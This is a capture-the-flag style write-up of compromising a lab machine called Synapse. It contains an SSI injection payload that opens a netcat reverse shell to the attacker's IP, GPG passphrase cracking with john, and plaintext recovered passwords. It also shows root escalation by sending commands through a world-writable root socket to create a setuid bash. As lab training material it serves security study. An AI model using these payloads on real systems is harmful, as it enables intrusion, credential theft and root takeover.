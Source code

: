 # Synapse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:30 +08
Nmap scan report for 192.168.201.149
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### SMB + FTP Rabbit Holes

FTP doesn't accept anonymous logins, and SMB with no credentials doesn't show us any share that we can access:

```
$ smbmap -H 192.168.201.149
[+] IP: 192.168.201.149:445     Name: 192.168.201.149                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It is thus likely that there's a web exploit, so we can start proxying traffic through Burpsuite.&#x20;

### Web Enum --> SSI Injection

Port 80 was running a custom dashboard:

<figure><img src="../../../.gitbook/assets/image (16) (11).png" alt=""><figcaption></figcaption></figure>

The File Manager was running elFinder, but we cannot access it since we need administrative access:

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I checked the user tab, and found that the user was called `mindsflee`:

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

All of options were under construction, except for the one on the right most.&#x20;

<figure><img src="../../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

From my enumeration, this seems to be the most vulnerable point. I attempted to upload some PHP webshells, but it seems only images are allowed.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

There was one weird part, which was the `url=inspect.shtml` portion, since I had never seen that before. Searching for `shtml` gives us results for Server Side Includes (SSI).

<figure><img src="../../../.gitbook/assets/image (27) (3).png" alt=""><figcaption></figcaption></figure>

Hacktricks has done a page on SSI Injection that we could try.

{% embed url="https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection" %}

We can try some of the payloads:

<figure><img src="../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

If we follow the redirect, we get this:

<figure><img src="../../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

We now have RCE on the machine, and we can easily get a reverse shell using this:

```
<!--#exec cmd='nc -c bash 192.168.45.189 21' -->
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GPG Creds --> Mindsflee Shell

Within the `/home/mindsflee` directory, there are some files of interest:

```
www-data@synapse:/home/mindsflee$ ls -la
total 32
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 .
drwxr-xr-x 3 root      root      4096 Jun 10  2021 ..
lrwxrwxrwx 1 root      root         9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mindsflee mindsflee  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 mindsflee mindsflee 3526 Jun 10  2021 .bashrc
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .gnupg
-rw-r--r-- 1 mindsflee mindsflee  807 Jun 10  2021 .profile
-rw-r--r-- 1 mindsflee mindsflee   33 Jul 15 00:29 local.txt
-rw-r--r-- 1 root      root      2058 Jan  3  2021 synapse_commander.py

www-data@synapse:/home/mindsflee/.gnupg$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 ..
-rw-r--r-- 1 mindsflee mindsflee 5180 Jun 14  2021 creds.priv
-rw-r--r-- 1 mindsflee mindsflee  124 Jun 14  2021 creds.txt.gpg
```

The `.gnupg` file contains some creds. Download these files back to our machine, and we can then try to decrypt it. Using `gpg`, we can attempt to import this key but it requires a passphrase.&#x20;

We can crack this using `gpg2john` and `john`:

```
$ gpg2john creds.priv > gpg_hash
$ john --show gpg_hash                                     
mindsflee:qwertyuiop:::mindsflee::creds.priv
```

Using this, we can then import the key using `gpg` and decrypt the file:

```
$ gpg --import creds.priv       
gpg: key 8ECE3C203E92BE79: "mindsflee" not changed
gpg: key 8ECE3C203E92BE79: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1

$ gpg --output decrypted --decrypt creds.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

$ cat decrypted                           
user: mindsflee
password: m1ndsfl33w1llc4tchy0u?
```

Using this password, we can `su` to `mindsflee`.

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges --> Socket Injection

The `mindsflee` user can use `sudo` with the Python script we found:

```
[sudo] password for mindsflee: 
Matching Defaults entries for mindsflee on synapse:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mindsflee may run the following commands on synapse:
    (root) /usr/bin/python /home/mindsflee/synapse_commander.py
```

Here's the content of the script:

```python
import socket
import os, os.path, sys
import time
from collections import deque    





print("""\
  
 _____ __ __ _____ _____ _____ _____ _____    _____ _____ _____ _____ _____ _____ ____  _____ _____ 
|   __|  |  |   | |  _  |  _  |   __|   __|  |     |     |     |     |  _  |   | |    \|   __| __  |
|__   |_   _| | | |     |   __|__   |   __|  |   --|  |  | | | | | | |     | | | |  |  |   __|    -|
|_____| |_| |_|___|__|__|__|  |_____|_____|  |_____|_____|_|_|_|_|_|_|__|__|_|___|____/|_____|__|__|


 
  """)

print("Focus your approach with a system designed for single network port access.")
print ("With Synapse Commander, a single arm delivers three multi-jointed instruments")
print("and a fully wristed 3DHD camera for visibility and control in narrow surgical spaces.")
print("Streamlined setup, multiple control modes and a dynamic statistics display are included")
print
print("1 - Access to ARM management")
print("2 - Enable 3DHD camera")
print("3 - Settings")
print("4 - Reboot the system")
print
instruction = raw_input("Synapse Instruction:")

if instruction == "1":
    
    print ("\nARM MANAGEMENT ENABLED")
    os.system("touch 2343432445467676")
elif instruction == "2":
    
    print ("\n3DHD CAMERA ENABLED")
    os.system("touch 5344225453244546")
elif instruction == "3":
    
    print ("\nACCESS TO SETTINGS CONFIGURATION")
    os.system("touch 77756563456244546")
elif instruction == "4":
    
    print ("\nSYSTEM REBOOTED")
    os.execl(sys.executable, sys.executable, *sys.argv)

else:
    os.execl(sys.executable, sys.executable, *sys.argv)



if os.path.exists("/tmp/synapse_commander.s"):
  os.remove("/tmp/synapse_commander.s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/synapse_commander.s")
os.system("chmod o+w /tmp/synapse_commander.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

This program seems to open a Socket as `root` using the configuration of `synapse_commander.s` after we input any number from 1-3, since option 4 and all others would just re-run the script.&#x20;

Again, Hacktricks has a page for this:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection" %}

In one SSH session, run the Python script and input '1'. In another SSH session, run this command:

{% code overflow="wrap" %}
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/synapse_commander.s
```
{% endcode %}

When we enter that command, the script starts waiting for data to be sent in, which it passes to `os.system(datagram)`. This would result in RCE as `root`:

<figure><img src="../../../.gitbook/assets/image (13) (1) (7).png" alt=""><figcaption></figcaption></figure>

We can then easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (22) (12).png" alt=""><figcaption></figcaption></figure>
